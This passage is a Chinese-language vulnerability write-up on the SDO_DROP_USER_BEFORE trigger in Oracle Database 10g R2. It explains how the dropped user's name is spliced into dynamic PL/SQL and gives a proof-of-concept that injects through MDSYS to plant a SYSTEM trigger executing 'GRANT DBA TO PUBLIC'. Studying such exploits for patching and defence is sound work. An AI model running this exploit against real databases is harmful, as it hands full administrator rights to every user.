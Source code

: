 ### 4. SDO_DROP_USER_BEFORE

> 测试环境：
> Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - 64bit
> 
> 权限要求：
> + `CREATE SESSION`

这个是一个触发器(trigger)漏洞

> 触发器在数据库里以独立的对象存储，它与存储过程和函数不同的是，存储过程与函数需要用户显示调用才执行，而触发器是由一个事件来启动运行。

#### (1) 原理

先看`SDO_DROP_USER_BEFORE`这个触发器的的定义吧：

``` sql
trigger sdo_drop_user_before  
before drop on DATABASE  
declare  
stmt varchar2(200);  
rdf_exception EXCEPTION; pragma exception_init(rdf_exception, -20000);  
BEGIN  
if dictionary_obj_type = 'USER' THEN  
BEGIN  
EXECUTE IMMEDIATE  
'begin ' ||  
'mdsys.rdf_apis_internal.' ||  
'notify_drop_user(''' ||  
dictionary_obj_name || '''); ' ||  
'end;';  
EXCEPTION  
WHEN rdf_exception THEN RAISE;  
WHEN OTHERS THEN NULL;  
END;  
end if;  
end;
```

可以看出这个触发器是在drop用户时会执行对应的命令，而`dictionary_obj_name`被动态拼接到PL/SQL中，存在注入


但`SDO_DROP_USER_BEFORE`这个触发器属于`MDSYS`，而且是以definer的权限来执行的，`MDSYS`在oracle 9i中是DBA权限，后来在10g R2上被降权了，因此无法直接通过注入来获取DBA权限

但是也不是毫无办法，`MDSYS`拥有`create any trigger`，也就是说我们可以利用这个注入来任意创建触发器

那么我们完全可以在`SYSTEM`下创建一个触发器来执行我们想要的命令，然后触发这个新创建触发器，从而以system来执行我们的命令

直接看POC，使用游标创建一个procedure（当然也可以不使用游标），该过程在system下创建一个触发器，当向`system.OL$`中插入数据时（默认public可向该表中插入数据），就会触发执行`grant dba to public`：

``` sql
DECLARE
MY_CURSOR NUMBER;
RESULT NUMBER;
BEGIN
MY_CURSOR := DBMS_SQL.OPEN_CURSOR;
DBMS_SQL.PARSE(MY_CURSOR,'declare pragma autonomous_transaction; begin DBMS_OUTPUT.PUT_LINE(''EXECUTING FROM SDO_DROP_USER_BEFORE!!!''); execute immediate ''create or replace trigger system.WHOPPEE before insert on system.OL$ DECLARE msg VARCHAR2(30); BEGIN null; dbms_output.put_line(''''In the trigger''''); EXECUTE IMMEDIATE ''''DECLARE PRAGMA AUTONOMOUS_TRANSACTION; BEGIN EXECUTE IMMEDIATE ''''''''GRANT DBA TO PUBLIC''''''''; END; ''''; end WHOPPEE;''; commit; end;',0);
DBMS_OUTPUT.PUT_LINE('Cursor value is :' || MY_CURSOR);
END;
/ 
```
